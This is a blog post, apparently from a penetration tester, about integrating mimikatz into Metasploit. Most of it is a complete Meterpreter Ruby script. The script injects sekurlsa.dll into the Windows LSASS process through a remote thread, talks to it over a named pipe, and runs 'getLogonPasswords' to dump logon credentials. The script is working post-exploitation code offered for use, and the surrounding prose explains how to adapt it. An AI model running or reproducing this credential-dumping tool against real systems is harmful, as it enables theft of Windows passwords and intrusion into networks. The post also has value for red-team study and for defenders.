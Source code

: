 = Integration of Mimikatz into Metasploit Stage1
:hp-tags: metasploit, mimikatz, railgun

One of the powers of Metasploit is it's ability to stay memory resident. Through the use of reflective DLL injection even keeping new functionality the attack loads from ever touching disk. Well, the first thing I wanted to do with Mimikatz is get to that same level.

Here is my first step to that end; a railgun based Meterpreter script. Now before going all reflective with it I needed to understand how the DLL worked. Thankfully [@gentilkiwi](https://twitter.com/gentilkiwi) stepped in and stopped my head from getting bloody. In this first step we will be removing the need for the mimikatz.exe binary, still needing the DLL to be uploaded, but we'll get there in the subsequent posts.

Ignore the do_cmd for now and I stepped through [remote DLL injection here](/blog/2011/5/30/remote-dll-injection-with-meterpreter.html). So the first odd lines is 

```ruby
handle = client.railgun.kernel32.CreateNamedPipeW('\\\\.\\pipe\\kiwi\\mimikatz', 'PIPE_ACCESS_DUPLEX', 'PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT', 1, 0, 0, 30000,nil)['return']
connectedlsass = client.railgun.kernel32.ConnectNamedPipe(handle,nil)
```

Essentially these connect to the [Named Pipe](http://en.wikipedia.org/wiki/Named_pipe) that the sekurlsa.dll uses to talk to the mimikatz.exe in it's normal operation. Then we just use the windows API call "ReadFile" from there on out.

```ruby
client.railgun.kernel32.ReadFile(handle,248,248,4,nil)
```

One of the draw backs to doing this all remotely is that Railgun doesn't have the memory management insight like the Windows OS does. Being able to know when pipes are ready to be read or written to is  a bit of a challenge and the call hangs your IRB / meterpreter session if you get it wrong. I've overcome this for the initial "banner" that sekurlsa writes by knowing the exact length (248 bytes in this case) of the text. For subsequent commands like "ping" and "getLogonPasswords" I simply have to read one character at a time, which is a slow process but removes any chance of getting hung. (Two bytes for every Unicode character)

If you have any questions on how/why this works or have a better way please leave your comments and questions below or hit me up on twitter!
  
Meterpreter Script:

```ruby    
def do_cmd(handle,cmd)
	ucommand = Rex::Text.to_unicode(cmd)
	sendcmd = client.railgun.kernel32.WriteFile(handle,ucommand,ucommand.size,4,nil)
	good2go = false
	newline = false
	readstring = []
	while good2go == false
		# Have to pull data 1 unicode character at a time
		# this is because the pipe won't write or read if
		# too much was written or read by the "client" (us)
		pull = client.railgun.kernel32.ReadFile(handle,2,2,4,nil)
		# Check to see if our end of read check is there: n000 @00
		if pull['lpBuffer'] == "@00" and newline == true
			good2go = true
		else
			readstring << pull['lpBuffer']
		end
		
		# Ready the newline var for previous check on next loop
		if pull['lpBuffer'] == "n00"
			newline = true
		else
			newline = false
		end
	end
	
	print_status(readstring.join(""))
end

print_status("x86 Detected - Using x86 mimikatz")
handle = client.railgun.kernel32.CreateNamedPipeW('\\\\.\\pipe\\kiwi\\mimikatz', 'PIPE_ACCESS_DUPLEX', 'PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT', 1, 0, 0, 30000,nil)['return']
print_status("Handle: #{handle}")
framework.threads.spawn('injectlsass',false) {
	pid = client.sys.process['lsass.exe']
	print_status("LSASS located at PID: #{pid}")
	pathtomimi = "C:\\sekurlsa.dll"

	pay = client.framework.payloads.create("windows/loadlibrary")
	pay.datastore["DLL"] = pathtomimi
	pay.datastore["EXITFUNC"] = 'thread'

	raw = pay.generate
	targetprocess = client.sys.process.open(pid, PROCESS_ALL_ACCESS)
	mem = targetprocess.memory.allocate(raw.length + (30024))
	targetprocess.memory.write(mem, raw)
	sleep(2)
	targetprocess.thread.create(mem, 0)
	print_status("Successfully Injected into LSASS")
}
print_status("Waiting for LSASS injection to complete")
connectedlsass = client.railgun.kernel32.ConnectNamedPipe(handle,nil)
print_status("Mimikatz has called home, ready for command")
sleep(2)
print_status("Reading banner")
client.railgun.kernel32.ReadFile(handle,248,248,4,nil)
print_status("Doing a quick ping to make sure things are working...")
do_cmd(handle,'ping')
print_status("If you made it this far it worked, doing getLogonPasswords")
do_cmd(handle, 'getLogonPasswords')
```
